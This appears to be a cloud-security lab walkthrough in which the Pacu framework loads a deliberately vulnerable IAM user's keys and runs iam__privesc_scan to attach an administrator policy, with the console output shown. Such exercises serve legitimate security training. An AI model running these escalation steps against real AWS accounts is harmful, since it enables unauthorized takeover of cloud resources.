 ⠉⠛⠿⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠁⠀⠀⠀⠀⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣸⣿⡟
 ⠀⠀⠀⠀⠉⣻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣾⣿⡟⠁
 ⠀⠀⠀⢀⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣦⣄⡀⠀⠀⠀⠀⠀⣴⣆⢀⣴⣆⠀⣼⣆⠀⠀⣶⣶⣶⣶⣶⣶⣶⣶⣾⣿⣿⠿⠋⠀⠀
 ⠀⠀⠀⣼⣿⣿⣿⠿⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠓⠒⠒⠚⠛⠛⠛⠛⠛⠛⠛⠛⠀⠀⠉⠉⠉⠉⠉⠉⠉⠉⠉⠉⠀⠀⠀⠀⠀
 ⠀⠀⠀⣿⣿⠟⠁⠀⢸⣿⣿⣿⣿⣿⣿⣿⣶⡀⠀⢠⣾⣿⣿⣿⣿⣿⣿⣷⡄⠀⢀⣾⣿⣿⣿⣿⣿⣿⣷⣆⠀⢰⣿⣿⣿⠀⠀⠀⣿⣿⣿
 ⠀⠀⠀⠘⠁⠀⠀⠀⢸⣿⣿⡿⠛⠛⢻⣿⣿⡇⠀⢸⣿⣿⡿⠛⠛⢿⣿⣿⡇⠀⢸⣿⣿⡿⠛⠛⢻⣿⣿⣿⠀⢸⣿⣿⣿⠀⠀⠀⣿⣿⣿
 ⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⡇⠀⠀⢸⣿⣿⡇⠀⢸⣿⣿⡇⠀⠀⢸⣿⣿⡇⠀⢸⣿⣿⡇⠀⠀⠸⠿⠿⠟⠀⢸⣿⣿⣿⠀⠀⠀⣿⣿⣿
 ⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⡇⠀⠀⢸⣿⣿⡇⠀⢸⣿⣿⡇⠀⠀⢸⣿⣿⡇⠀⢸⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣿⠀⠀⠀⣿⣿⣿
 ⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣧⣤⣤⣼⣿⣿⡇⠀⢸⣿⣿⣧⣤⣤⣼⣿⣿⡇⠀⢸⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣿⠀⠀⠀⣿⣿⣿
 ⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣿⣿⣿⣿⣿⡿⠃⠀⢸⣿⣿⣿⣿⣿⣿⣿⣿⡇⠀⢸⣿⣿⡇⠀⠀⢀⣀⣀⣀⠀⢸⣿⣿⣿⠀⠀⠀⣿⣿⣿
 ⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⡏⠉⠉⠉⠉⠀⠀⠀⢸⣿⣿⡏⠉⠉⢹⣿⣿⡇⠀⢸⣿⣿⣇⣀⣀⣸⣿⣿⣿⠀⢸⣿⣿⣿⣀⣀⣀⣿⣿⣿
 ⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⡇⠀⠀⢸⣿⣿⡇⠀⠸⣿⣿⣿⣿⣿⣿⣿⣿⡿⠀⠀⢿⣿⣿⣿⣿⣿⣿⣿⡟
 ⠀⠀⠀⠀⠀⠀⠀⠀⠘⠛⠛⠃⠀⠀⠀⠀⠀⠀⠀⠘⠛⠛⠃⠀⠀⠘⠛⠛⠃⠀⠀⠉⠛⠛⠛⠛⠛⠛⠋⠀⠀⠀⠀⠙⠛⠛⠛⠛⠛⠉⠀

Version: 1.6.0
```  

set access keys, you will use the keys of the `vulnerable-iam-user`:

```console
Pacu (first:No Keys Set) > set_keys
Setting AWS Keys...
Press enter to keep the value currently stored.
Enter the letter C to clear the value, rather than set it.
If you enter an existing key_alias, that key's fields will be updated instead of added.
Key alias must be at least 2 characters

Key alias [None]: vulnerable
Access key ID [None]: <ACCESS-KEY-ID-HERE>
Secret access key [None]: <SECRET-ACCESS-KEY-HERE>
Session token (Optional - for temp AWS keys only) [None]: 

Keys saved to database. 
```  

Check yuour current Pacu identity:  

```sh
whoami
```  

```json
{
  "UserName": null,
  "RoleName": null,
  "Arn": null,
  "AccountId": null,
  "UserId": null,
  "Roles": null,
  "Groups": null,
  "Policies": null,
  "AccessKeyId": "AK************",
  "SecretAccessKey": "vB***********************************",
  "SessionToken": null,
  "KeyAlias": "vulnerable",
  "PermissionsConfirmed": null,
  "Permissions": {
    "Allow": {},
    "Deny": {}
  }
}
```  

list all available pacu commands with `ls`.  
You want to check for IAM Privilege escalation paths:  
```sh
help iam__privesc_scan
```  

Execute the `run iam__privesc_scan` command to scan for permission misconfigurations in the environment and see what privilege escalation vectors might be available.  
Select "y" when prompted to run the module `iam__enum_permissions`.  

output:  
```console
[iam__privesc_scan] Escalation methods for current user:
[iam__privesc_scan]   CONFIRMED: PutGroupPolicy
[iam__privesc_scan]   CONFIRMED: PutUserPolicy
[iam__privesc_scan] Attempting confirmed privilege escalation methods...

[iam__privesc_scan] Trying to add an administrator policy to the current user...

[iam__privesc_scan]   Successfully added an inline policy named hdnby1gqhk! You should now have administrator permissions.


[iam__privesc_scan] iam__privesc_scan completed.

[iam__privesc_scan] MODULE SUMMARY:

  Privilege escalation was successful
```   

Yes! you succesfully attached an admin policy called `hdnby1gqhk` to  our vulnerable user, you can inspect it from the aws console:  

  

If you type `whoami` once again in the pacu console, you will see much more grants than before!  

With this new policy you can basically do whatever you want across all aws resources 😈 😈 😈 


